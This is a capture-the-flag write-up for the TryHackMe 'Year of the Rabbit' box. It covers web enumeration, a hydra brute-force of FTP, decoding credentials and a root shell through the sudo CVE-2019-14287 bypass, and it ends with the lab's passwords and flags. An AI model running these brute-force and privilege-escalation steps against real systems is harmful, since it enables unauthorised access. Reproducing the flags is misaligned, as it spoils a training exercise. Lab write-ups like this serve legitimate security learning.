 ```yaml
---
Let's have a nice gentle start to the New Year!
Can you hack into the Year of the Rabbit box without falling down a hole?
---
```


### gobuster

- 10.10.55.241/assets/style.css  -> *Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php*

### burpsuite

`Go to 10.10.55.241/sup3r_s3cr3t_fl4g.php then enabled burp with foxyproxy`

*foxyproxy config* -> title: burp , proxy type:http, proxy ip: 127.0.0.1, port:8080 save

*burpsuite ->* proxy/ intercept: on , forward

==GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1==

*go to /WExYY2Cv-qU* -> download img

```
strings Hot_Babe.png
```

> Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:

> Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9

### hydra

```
nano pass.lst
```

```
hydra -l ftpuser -P /home/kali/Downloads/year_rabbit/pass.lst 10.10.55.241 ftp
```

==[21][ftp] host: 10.10.55.241   login: ftpuser   password: 5iez1wGXKfPKQ==

### ftp

```
ftp 10.10.55.241
```
`enter user and pass found with hydra`

```
get Eli's_Creds.txt
```

[brainfuck decode](https://www.dcode.fr/brainfuck-language)

>+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

==User: eli
Password: DSpDiM1wAEwid==

### ssh

```
find -name s3cr3t 2>/dev/null
```
```
cd /usr/games/s3cr3t
```
```
cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
>Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!
Yours sincerely
   -Root

```
su gwendoline
```

`pass: MniVCQVhQHUNI`

### pirv esc

```
sudo -l
```

==(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt==

`sudo-cve-2019-14287 `

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
==press : then !/bin/sh==

```root
whoami
```
```
cat /root/root.txt
```
- What is the user flag? *THM{1107174691af9ff3681d2b5bdb5740b1589bae53}*
- What is the root flag? *THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}*



